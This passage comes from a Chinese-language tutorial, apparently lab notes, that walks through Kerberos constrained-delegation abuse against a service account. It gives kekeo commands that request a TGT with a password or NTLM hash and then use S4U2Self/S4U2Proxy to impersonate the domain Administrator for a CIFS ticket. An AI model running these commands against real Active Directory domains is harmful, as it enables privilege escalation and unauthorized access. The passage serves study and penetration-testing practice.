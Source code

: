     ![image-20240627151753501](Kerberos/image-20240627151753501.png)

#### 5.2.3 复现过程 - 服务账号（其实机器同理）

1. 首先要伪造针对服务账号的 TGT，为下一步的使用做铺垫：
    ```cmd
    # 使用 kekeo
    tgt::ask /user:member /domain:endlessshw.com /password:cjy320723 /ticket:member.kirbi
    # 同理此处利用 ntlm hash也是可以进行请求的，机器同理，用户名就是主机名罢了
    tgt::ask /user:member /domain:endlessshw.com /NTLM:XXXXX
    ```

2. 然后伪造域控的身份，对服务账号发起请求以触发 S4U2Self 和 S4U2Proxy。
    ```cmd
    # 还是在 kekeo，这里就需要用上面的 TGT 来帮助“域控”通过 Kerberos 验证
    tgs::s4u /tgt:TGT_member@ENDLESSSHW.COM_krbtgt~endlessshw.com@ENDLESSSHW.COM.kirbi /user:Administrator@endlessshw.com /service:cifs/winserver08.endlessshw.com
    ```
